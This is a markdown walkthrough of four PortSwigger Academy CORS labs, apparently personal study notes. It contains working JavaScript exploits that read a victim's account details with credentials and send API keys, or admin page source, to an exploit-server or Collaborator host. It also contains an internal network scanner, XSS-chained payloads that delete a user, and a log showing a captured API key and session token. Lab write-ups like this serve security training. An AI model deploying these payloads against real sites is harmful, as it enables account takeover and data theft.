



# Cross-origin resource sharing (CORS)

## CORS vulnerability with basic origin reflection

### Description

The Academy website for [this lab](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack) has an insecure CORS configuration in that it trusts all origins. 

### Proof of Concept

1. Start Burp, foxyproxy, and with intercept off, log in to the target site and access your account page.



2. Review the **HTTPhistory** in Burp: The key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.



3. Send the request to **Burp Repeater**, and resubmit it with the added header:

```text
Origin: https://whatever.com
```



The origin is reflected in the `Access-Control-Allow-Origin` header, meaning the application allows an arbitrary (public) origin, and `Access-Control-Allow-Credentials` is also true.

4. Create exploit (replacing `lab-id`):

```text
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://lab-id.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

5. Paste the exploit in the `body` field of the form in the exploit server.
6. Click **View exploit** and check you land on the log page and your API key is in the URL. 
7. **Deliver exploit to victim**.
8. Go to **Access log**

```text
...
10.0.3.246      2023-01-02 21:51:33 +0000 "GET /exploit/ HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.3.246      2023-01-02 21:51:33 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22PY3qD4pkDMg4WDq1CZvntWDlPE0TFUyV%22,%20%20%22sessions%22:%20[%20%20%20%20%22pEGInv0rQCAB3vDmrgkuharW591raOlV%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.3.246      2023-01-02 21:51:33 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
```

9. Copy the administrator's API key, and enter it as solution to the lab.

### Exploitability

To exploit this vulnerability, an attacker would have to create an exploit from a well-know template. Then, the attacker would need to convince the administrator into visiting the page with the exploit, potentially giving the attacker access to the administrator's account and all associated privileges and resources.

### Impact

The attacker could disable account notifications, enable 2FA to lock them out, and transfer their data to an arbitrary address.

### Remediation

An attacker can directly forge a request from any trusted origin. Apply protections to sensitive data, such as authentication and session management, in addition to configuring CORS.

----

## CORS vulnerability with trusted null origin

### Description

[This website](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack) has an insecure CORS configuration in that it trusts the `null` origin.  

### Proof of Concept

1. Start Burp, foxyproxy, and with intercept off, log in to the target site and access your account page.
2. In Burp, review the **HTTPhistory**. The API key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to **Burp Repeater**, and resubmit it with the added header `Origin: null`. The "null" origin is reflected in the Access-Control-Allow-Origin header of the response.
4. Create exploit (replacing `lab-id` and `exploit-server-id`). The iframe sandbox generates a null origin request.

```text
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://lab-id.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-server-id.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

5. Go to the exploit server and enter the exploit in the body field of the form.
6. Click **View exploit** and check you land on the log page and your API key is in the URL. 
7. **Deliver exploit to victim**.
8. Go to **Access log**
9. Copy the administrator's API key, and enter it as solution to the lab.

### Exploitability

To solve the lab, an attacker needs to craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to the exploit server. The lab is solved when the attacker successfully submits the administrator's API key. An account with credentials `wiener:peter` is available.

----

## CORS vulnerability with trusted insecure protocols

### Description

The website of [this lab](https://portswigger.net/web-security/cors/lab-breaking-https-attack) has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

### Proof of Concept

1. Start Burp, foxyproxy, and with intercept off, log in to the target site and access your account page.
2. In Burp, review the history. The API key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header `Origin: http://subdomain.lab-id` where `lab-id` is the lab domain name. The origin is reflected in the `Access-Control-Allow-Origin` header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
4. Open a product page, click **Check stock**. It is loaded using a HTTP URL on a subdomain, and the `productID` parameter is vulnerable to [XSS](xss.md). 
5. Create exploit ((replacing `lab-id` and `exploit-server-id`):

```text
<script>
    document.location="http://stock.lab-id.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://lab-id.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-server-id.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

6. Go to the exploit server and enter the exploit in the body field of the form.
7. Click **View exploit** and check you land on the log page and your API key is in the URL. 
8. **Deliver exploit to victim**.
9. Go to **Access log**
10. Copy the administrator's API key, and enter it as solution to the lab.

### Exploitability

_If an on-path attack (MitM) between server and victim was possible, a connection to an insecure subdomain could be hijacked, and malicious JavaScript injected to exploit the CORS configuration. Unfortunately, in this lab environment on-path is not possible, so we used an alternative way of injecting JavaScript into the subdomain._

----

## CORS vulnerability with internal network pivot attack

### Description

The website of [this lab](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack) has an insecure CORS configuration in that it trusts all internal network origins, and requires multiple steps to complete. 

### Proof of Concept

1. Scan the local network for the endpoint. Replace `$collaboratorPayload` with your own Collaborator payload or exploit server URL. Enter the following code into the exploit server. Click **Store**, then **Deliver exploit to victim**. Inspect the log or the Collaborator interaction and look at the code parameter sent to it.

```text
<script>
var q = [], collaboratorURL = 'http://$collaboratorPayload';

for(i=1;i<=255;i++) {
	q.push(function(url) {
		return function(wait) {
			fetchUrl(url, wait);
		}
	}('http://192.168.0.'+i+':8080'));
}

for(i=1;i<=20;i++){
	if(q.length)q.shift()(i*100);
}

function fetchUrl(url, wait) {
	var controller = new AbortController(), signal = controller.signal;
	fetch(url, {signal}).then(r => r.text().then(text => {
		location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now();
	}))
	.catch(e => {
		if(q.length) {
			q.shift()(wait);
		}
	});
	setTimeout(x => {
		controller.abort();
		if(q.length) {
			q.shift()(wait);
		}
	}, wait);
}
</script>
```

2. Clear the code from stage 1 and enter the following code in the exploit server. Replace `$ip` with the IP address and port number retrieved from your collaborator interaction. Don't forget to add your Collaborator payload or exploit server URL again. Update and deliver your exploit. We will now probe the username field for an XSS vulnerability. You should retrieve a Collaborator interaction with `foundXSS=1` in the URL or you will see `foundXSS=1` in the log.

```text
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r => r.text().then(text => {
		xss(url, text, '">');
	}))
}

fetchUrl("http://$ip", "http://$collaboratorPayload");
</script>
```

3. Clear the code from stage 2 and enter the following code in the exploit server. Replace `$ip` with the same IP address and port number as in step 2 and don't forget to add your Collaborator payload or exploit server again. Update and deliver your exploit. Your Collaborator interaction or your exploit server log should now give you the source code of the admin page.

```text
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r=>r.text().then(text=>
	{
		xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
	}
	))
}

fetchUrl("http://$ip", "http://$collaboratorPayload");
</script>
```

4. Read the source code retrieved from step 3 in your Collaborator interaction or on the exploit server log. You'll notice there's a form that allows you to delete a user. Clear the code from stage 3 and enter the following code in the exploit server. Replace `$ip` with the same IP address and port number as in steps 2 and 3. The code submits the form to delete carlos by injecting an `iframe` pointing to the `/admin` page.

```text
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url){
	fetch(url).then(r=>r.text().then(text=>
	{
	xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
	}
	))
}

fetchUrl("http://$ip");
</script>
```

Click on **Deliver exploit to victim** to submit the code. Once you have submitted the form to delete user carlos then you have completed the lab.

### Exploitability

_Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. The provided exploit server and/or Burp Collaborator's default public server must be used._


